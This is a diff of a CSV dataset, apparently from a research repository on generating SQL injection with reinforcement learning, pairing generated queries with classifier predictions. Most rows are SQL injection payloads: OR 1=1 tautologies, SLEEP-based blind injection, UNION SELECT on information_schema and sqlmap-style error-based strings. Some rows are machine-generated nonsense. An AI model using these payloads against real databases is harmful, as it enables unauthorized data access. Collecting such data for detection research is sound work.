

Before and after one commit to Vaishika05/SQLi-Using-RL, a CSV file: dqnAgent_with_predictions.csv, drawn as a sheet; only a part is shown; the diff covers the shown part only.

```diff
--- a/dqnAgent_with_predictions.csv
+++ b/dqnAgent_with_predictions.csv
@@ -1,20 +1,9 @@
 Generated Queries,Prediction
-SELECT getting OR 1=1 --,0
-"ferrer del rio, 126 2?h OR 1=1",0
-1'+  (  select plhk where 6540  =  6540 OR 'a'='a',1
-SELECT * FROM more WHERE NOT height = 'bite'  AND NOT expression = 'aside' UNION SELECT * FROM information_schema.tables,0
-SELECT * FROM short WHERE by BETWEEN '1996-07-01' AND '1996-07-31' AND SLEEP(5),0
-"   SELECT class, fast, offer FROM beside WHERE arrive  IS NULL OR 1=1",0
-"SELECT * FROM visit FETCH FIRST 3 ROWS ONLY AND IF(1=1, SLEEP(5), 0) --",0
-salma OR 1=1,0
--2039'  )   or 2724 in    (    (   char  (  113  )  +char  (  113  )  +char  (  112  )  +char  (  106  )  +char  (  113  )  +  (  select   (  case when   (  2724  =  2724  )   then char  (  49  )   else char  (  48  )   end   )    )   +char  (  113  )  +char  (  122  )  +char  (  118  )  +char  (  122  )  +char  (  113   )    )     )  OR 1=1 --,1
-select   (  case when   (  3435  =  4011  )   then 1 else 3435*  (  select 3435 from master..sysdatabases  )   end  )  -- AND SLEEP(5),1
-SELECT * FROM easier WHERE soon = 'hunt'  OR minerals = 'from' AND SLEEP(5),0
-SELECT * FROM become WHERE spend BETWEEN '1996-07-01' AND '1996-07-31',0
-"1%'   )    )    and exp  (  ~  (  select * from   (  select concat  (  0x7171706a71,  (  select   (  elt  (  8190  =  8190,1   )    )     )  ,0x717a767a71,0x78   )    )   x   )    )    and    (    (   '%'  =  ' UNION SELECT column_name FROM (SELECT * FROM information_schema.tables) AS sub",1
-"-3450"" where 4478  =  4478 or 9323  =  9323#",1
-SELECT TOP 50 PERCENT * FROM popular,0
-FROM  ( SELECT DISTINCT end FROM but )  AND SLEEP(5),0
-o.donnel,0
-"1""   )    )    and   (  select 2*  (  if   (    (   select * from   (  select concat  (  0x7171706a71,  (  select   (  elt  (  3484  =  3484,1   )    )     )  ,0x717a767a71,0x78   )    )   s  )  , 8446744073709551610, 8446744073709551610   )    )     )   and    (    (   ""llgb"" like ""llgb --",1
-SELECT AVG ( laugh ) FROM onto AND SLEEP(5),0
+SELECT * FROM exercise WHERE raise = 'fact'  OR start = 'slip' OR 'a'='a',0
+l+echosa OR 1=1,0
+gourtchenko@cirujanaplastica.nl AND SLEEP(5),0
+02056001p AND SLEEP(5),1
+"1'||  (  select 'gboi' where 4191  =  4191 and 8514  =    (  select count  (  *  )   from domain.domains as t1,domain.columns as t2,domain.tables as t3   )    )   ||' UNION SELECT column_name FROM (SELECT * FROM information_schema.tables) AS sub",1
+"-4528""  )   or 5903  =    (  'qqpjq'||  (  select case 5903 when 5903 then 1 else 0 end from rdb$database  )  ||'qzvzq'  )   and   (  ""fxmt"" like ""fxmt UNION SELECT column_name FROM (SELECT * FROM information_schema.tables) AS sub",1
+SELECT * FROM slight WHERE indeed IN  ( SELECT hard FROM describe ) ,0
+ (  select   (  case when   (  6035  =  9882  )   then 6035 else 6035*  (  select 6035 from mysql.db  )   end   )    )  UNION SELECT column_name FROM (SELECT * FROM information_schema.tables) AS sub,1
```
Also changed, not shown: 5 added rows, 56 removed rows and 34 edited cells elsewhere in this file, simpleAgent_with_predictions.csv, 16 other files.
